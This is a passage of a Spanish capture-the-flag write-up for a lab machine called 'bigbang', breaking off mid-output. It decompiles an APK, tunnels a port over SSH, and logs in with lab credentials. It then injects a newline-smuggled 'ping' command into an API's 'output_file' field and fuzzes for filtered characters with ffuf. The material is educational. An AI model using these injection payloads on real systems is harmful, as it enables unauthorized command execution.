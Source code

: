 Vamos a anlizarla con [appetize.io](https://appetize.io/), buena heraamienta para analizar apk's

Pero parece que hay otra forma más sencilla de hacerlo, solo necesitamos extraer el contenido del apk: 
```bash
┌──(kali㉿kali)-[~/labs-hack/bigbang/apk]
└─$ 7z x satellite-app.apk

┌──(kali㉿kali)-[~/labs-hack/bigbang/apk]
└─$ ls
AndroidManifest.xml  classes.dex  kotlin  META-INF  okhttp3  res  resources.arsc  satellite-app.apk 

┌──(kali㉿kali)-[~/labs-hack/bigbang/apk]
└─$ jadx $(pwd)/classes.dex -d $(pwd)
INFO  - loading ...
INFO  - processing ...
INFO  - done
```
jadx es una herramienta de decompilación de archivos APK/Dex, escrita en Java, que convierte archivos .dex (Dalvik Executable) a código fuente Java legible. Es decir, te permite ver y analizar el código de aplicaciones Android, incluso si no tienes el código fuente original. `sudo apt install jadx`



Lo que se hace después es analizar el código de la aplicación, se analizan las funciones y con ese se deterima la forma en la que se pueden hacer peticiones légitimas, esto se hace iniciando un tunel por ssh

```bash 
$ ssh -L 9090:localhost:9090 developer@10.10.11.52
```

Se añade app.bigbang.htb al /etc/hosts

Y partir de aquì se empiezan a realizar las peticiones: 

```bash 
──(kali㉿kali)-[~]                                                                                
└─$ curl app.bigbang.htb:9090/command -d '{"command": "send_image", "output_file": "test.png\nping 
-c 1 10.10.14.103"}' -H "Content-Type: application/json" -H "Authorization: Bearer $token"         
{"msg":"Bad Authorization header. Expected 'Authorization: Bearer <JWT>'"}

┌──(kali㉿kali)-[~]                                                                                
└─$ token=$(curl localhost:9090/login -d '{"username": "developer", "password": "bigbang"}' -H "Hos
t: app.bigbang.htb" -H "Content-Type: application/json" -s | jq .access_token -r)
```

Lo interesante de esto es que se descubre que la aplicaciòn bloquea el uso de algunos caracteres en el backen, lanzando un error de que no se soportan dichos caracteres peligrosos, entonces se aplica fuzzin para descubirir cuales son: 

```bash 
┌──(kali㉿kali)-[~]                                                                                                                                                                          
└─$ ffuf -u http://app.bigbang.htb:9090/command -d '{"command": "send_image", "output_file": "test.pngFUZZ"}' -H "Content-Type: application/json" -H "Authorization: Bearer $token" -w /usr/s
hare/seclists/Fuzzing/alphanum-case-extra.txt -mr dangerous                                                                                                                                  
                                                                                                                                                                                             
        /'___\  /'___\           /'___\                                                                                                                                                      
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                                                                                      
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                                                                                     
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                                                                                                                     
```